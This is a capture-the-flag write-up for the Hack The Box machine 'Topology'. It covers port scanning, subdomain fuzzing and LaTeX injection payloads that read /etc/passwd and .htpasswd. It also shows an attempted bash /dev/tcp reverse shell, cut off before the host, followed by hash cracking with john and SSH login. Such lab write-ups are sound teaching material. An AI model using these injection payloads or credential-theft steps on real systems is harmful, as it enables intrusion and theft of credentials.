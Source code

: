 ```yaml
---
title: Topology
date: 2023-09-20
draft: true
tags: ["HTB", "Write-up"]
categories: ["Machines"]
htb_link: https://app.hackthebox.com/machines/topology
level: easy
os: linux
---
```


## Machine Summary

| MachineName | {{ .Params.title }}    |
| ----------- | ---------------------- |
| HTB Link    | {{ .Params.htb_link }} |
| OS          | {{ .Params.os }}       |
| Level       | {{ .Params.level }}    |
| Seasonal    | No                     |

Start off with the usual; I always go for adding the IP to my hosts file as this is faster and easier.

```bash
echo "${IP_of_Box} topology.htb" | sudo tee -a /etc/hosts
```

Then I move to my first check; nmap

```bash
nmap -sCV topology.htb
```

This results in the following output:

```bash
┌──(kelly㉿Stardust)-[~/boxes]
└─$ nmap -sCV topology.htb
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-05 12:08 CEST
Nmap scan report for topology.htb (10.129.107.168)
Host is up (0.022s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 dc:bc:32:86:e8:e8:45:78:10:bc:2b:5d:bf:0f:55:c6 (RSA)
|   256 d9:f3:39:69:2c:6c:27:f1:a9:2d:50:6c:a7:9f:1c:33 (ECDSA)
|_  256 4c:a6:50:75:d0:93:4f:9c:4a:1b:89:0a:7a:27:08:d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Miskatonic University | Topology Group
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.64 seconds
```

We can clearly see that we have port 22 and 80 open. Let's check out the website.
It's some kind of university site; with a few software options:

- LaTeX Equation Generator
- PHPMyRefDB
- TopoMisk
- PlotoTopo

Only the LaTeX one is accessible; so let's check that out.

We navigate to http://latex.topology.htb/equation.php but it's an 404, which is normal considering the DNS name isn't resolving. So let's add it to our hosts file.

```bash
echo "${IP_of_Box} latex.topology.htb" | sudo tee -a /etc/hosts
```

And we're in. We can enter LaTeX code and it will generate an image for us. Let's try to get a reverse shell.

```latex
\documentclass{article}
\usepackage{graphicx}
\begin{document}
\immediate\write18{bash -c 'bash -i >& /dev/tcp/
```

No dice; 'Illegal Command'. It may be a little over the top. Let's try something simpler.

So we hit google; and find this [article](https://book.hacktricks.xyz/pentesting-web/formula-doc-latex-injection).

We also note down the URL of the error.

`http://latex.topology.htb/equation.php?eqn=%5Cinput%7B%7C%22%2Fbin%2Fhostname%22%7D+%5Cinput%7B%7C%22extractbb+%2Fetc%2Fpasswd+%3E+%2Ftmp%2Fb.tex%22%7D&submit=`

As a means of an error, I actually navigated to http://latex.topology.htb and am presented with all files within the webserver. There's no index. Here, I actually find which version of pdfTex is running in the logs. pdfTeX, Version 3.14159265-2.6-1.40.20
In these logs, I also see why the `\write18` command is not working. It's restricted. But we also see that & line parsing is enabled.

```text
entering extended mode
 restricted \write18 enabled.
 %&-line parsing enabled.
```

And in HackTricks, we find "You might need to adjust injection with wrappers as `\[` or `$`."
And try what they list to get info.

```latex
\input{/etc/passwd} # Nope
\lstinputlisting{/etc/passwd} # this one does work
```

And there we have it - we have our user and their homedir.

Let's try to get the user flag this way; `$\lstinputlisting{/home/vdaisley/user.txt}$`
No dice, we need ssh access. Alright, nmap said this was Apache 2.4.41, it's possible passwords are stored in the .htpasswd file. But where the beep is this file?

ffuf to the rescue.

````bash
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://topology.htb/ -H "Host: FUZZ.topology.htb"
```
This tells me straightaway we've got stats and dev going. Let's check out both.
http://stats.topology.htb (after adding it to my hosts file too) is just a graph, useless.
http://dev.topology.htb is a login page. This means we can poke around there. Since this is a login box from the browser, this must be .htaccess protected. Let's try to get the .htaccess file.


```latex
$\lstinputlisting{/var/www/dev/.htaccess}$
````

Oh baby, this literally says "Go check .htpasswd. So let's do that.

````latex

```latex
$\lstinputlisting{/var/www/dev/.htpasswd}$
````

And there it is.

`vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zsAIbIxTY0`

But this is a hash. Let's crack it. Since my colleague already explained this to me - ha!

```bash
john -w /usr/share/wordlists/rockyou.txt hashed
```

Now once we have our foothold via SSH; we've got the user flag. Let's get root.

```bash
sshpass -p 'password' ssh vdaisley@topology.htb
whoami
hostname
cat user.txt
```
